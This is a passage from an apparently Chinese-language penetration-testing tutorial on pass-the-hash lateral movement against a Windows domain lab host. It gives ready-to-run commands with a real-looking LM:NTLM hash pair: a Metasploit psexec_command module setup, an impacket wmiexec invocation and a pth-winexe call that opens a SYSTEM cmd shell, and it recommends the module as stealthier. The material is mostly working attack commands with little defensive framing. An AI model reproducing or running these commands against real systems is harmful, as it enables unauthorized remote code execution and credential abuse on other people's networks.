 dir \192.168.52.129\c$  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210810085746.png)

  

MSF中也早已集成了PTH的方法：

这里的LM哈希是NTLM哈希认证的前身，只不过因为安全问题被NTLM取代了，有些工具需要填写我们可以原样填写，或者用00000000代替即可。  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210810085748.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210810085749.png)

  

成功便弹回shell上面的模块特征过于明显，可以利用msf稍微隐秘一点的模块  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210810085750.png)

  

  

 **利用msf稍微隐秘的PTH** ：

执行特定的命令然后就退出，另外还需要一个参数，就是在远程机器上执行的命令  

  *   *   *   *   *   *   * 

    
    
    use admin/smb/psexec_commandset rhosts 192.168.52.129set subdomain tubai.comset smbuser administratorset smbpass 00000000000000000000000000000000:2b07f7b579bb97532a9eb37753765d8fset command hostnamerun

  

 **impacket套件中的wmiexec可以PTH：**

wmiexec.exe -hashes LM哈希：NTLM哈希 域名/用户名@目标IP  

  * 

    
    
    wmiexec.exe -hashes e52cac67419a9a22a67a448822b50c99:2b07f7b579bb97532a9eb37753765d8f tubai/administrator@192.168.52.129

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210810085751.png)

  

 **kali中也有自带工具可以PTH：**

pth-winexe  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210810085752.png)

  * 

    
    
    pth-winexe -U tubai/administrator%e52cac67419a9a22a67a448822b50c99:2b07f7b579bb97532a9eb37753765d8f --system --ostype=1 //192.168.52.129 cmd
